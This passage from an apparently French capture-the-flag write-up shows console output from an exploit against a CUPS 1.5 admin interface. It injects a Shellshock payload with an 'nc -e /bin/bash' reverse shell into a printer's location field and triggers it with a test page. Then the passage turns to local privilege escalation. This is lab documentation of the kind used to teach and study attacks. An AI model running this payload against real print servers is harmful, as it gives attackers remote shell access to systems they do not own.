 ```console
[*] Found CUPS server: CUPS/1.5
[+] Successfully added dummy printer 'YV9B9w0rQcao' for check.
[*] (VERBOSE) Deleting printer 'YV9B9w0rQcao'
[*] (VERBOSE) Sending POST request to http://127.0.0.1:6311/admin/
[*] (VERBOSE) POST Data: {'org.cups.sid': 'QxsG081GaJjCy9O9', 'OP': 'delete-printer', 'printer_name': 'YV9B9w0rQcao', 'confirm': 'Delete Printer'}
[*] (VERBOSE) Response Status: 200
[*] (VERBOSE) Response Headers: {'Date': 'Fri, 06 Jun 2025 07:38:48 GMT', 'Server': 'CUPS/1.5', 'Connection': 'Keep-Alive', 'Keep-Alive': 'timeout=30', 'Content-Language': 'en_US', 'Transfer-Encoding': 'chunked', 'Content-Type': 'text/html;charset=utf-8'}
[+] Successfully deleted dummy printer 'YV9B9w0rQcao'.
[*] Adding printer 'pwned-ybsOG8NX' with payload...
[*] (VERBOSE) Adding new printer 'pwned-ybsOG8NX' with payload in PRINTER_LOCATION
[*] (VERBOSE) Sending POST request to http://127.0.0.1:6311/admin/
[*] (VERBOSE) POST Data: {'org.cups.sid': 'QxsG081GaJjCy9O9', 'OP': 'add-printer', 'PRINTER_NAME': 'pwned-ybsOG8NX', 'PRINTER_INFO': '', 'PRINTER_LOCATION': '() { :;}; $(nc -e /bin/bash 192.168.1.43 9999) &', 'DEVICE_URI': 'file:///dev/null'}
[*] (VERBOSE) Files: ['PPD_FILE']
[*] (VERBOSE) Response Status: 200
[*] (VERBOSE) Response Headers: {'Date': 'Fri, 06 Jun 2025 07:38:48 GMT', 'Server': 'CUPS/1.5', 'Connection': 'Keep-Alive', 'Keep-Alive': 'timeout=30', 'Content-Language': 'en_US', 'Transfer-Encoding': 'chunked', 'Content-Type': 'text/html;charset=utf-8'}
[+] Printer 'pwned-ybsOG8NX' added successfully.
[*] Printing test page to trigger payload...
[*] (VERBOSE) Adding test page to printer queue for 'pwned-ybsOG8NX'
[*] (VERBOSE) Sending POST request to http://127.0.0.1:6311/printers/pwned-ybsOG8NX
[*] (VERBOSE) POST Data: {'org.cups.sid': 'QxsG081GaJjCy9O9', 'OP': 'print-test-page'}
[*] (VERBOSE) Response Status: 200
[*] (VERBOSE) Response Headers: {'Date': 'Fri, 06 Jun 2025 07:38:48 GMT', 'Server': 'CUPS/1.5', 'Connection': 'Keep-Alive', 'Keep-Alive': 'timeout=30', 'Content-Language': 'en_US', 'Transfer-Encoding': 'chunked', 'Content-Type': 'text/html;charset=utf-8'}
[+] Test page submitted. Payload should have executed (check listener or target).
[*] The payload executes asynchronously. This script does not confirm execution success.
[*] Cleaning up: deleting printer 'pwned-ybsOG8NX'...
[*] (VERBOSE) Deleting printer 'pwned-ybsOG8NX'
[*] (VERBOSE) Sending POST request to http://127.0.0.1:6311/admin/
[*] (VERBOSE) POST Data: {'org.cups.sid': 'QxsG081GaJjCy9O9', 'OP': 'delete-printer', 'printer_name': 'pwned-ybsOG8NX', 'confirm': 'Delete Printer'}
[*] (VERBOSE) Response Status: 200
[*] (VERBOSE) Response Headers: {'Date': 'Fri, 06 Jun 2025 07:38:48 GMT', 'Server': 'CUPS/1.5', 'Connection': 'Keep-Alive', 'Keep-Alive': 'timeout=30', 'Content-Language': 'en_US', 'Transfer-Encoding': 'chunked', 'Content-Type': 'text/html;charset=utf-8'}
[+] Printer 'pwned-ybsOG8NX' deleted successfully.
[*] Exploit attempt finished.
```

J'obtiens alors un shell.

### Exploitation locale

Bien que les scénarios d'exploitation locale ne semblent pas être prévus par ce CTF, le système est tout de même vulnérable à de nombreuses failles populaires (listing obtenu avec LinPEAS) :
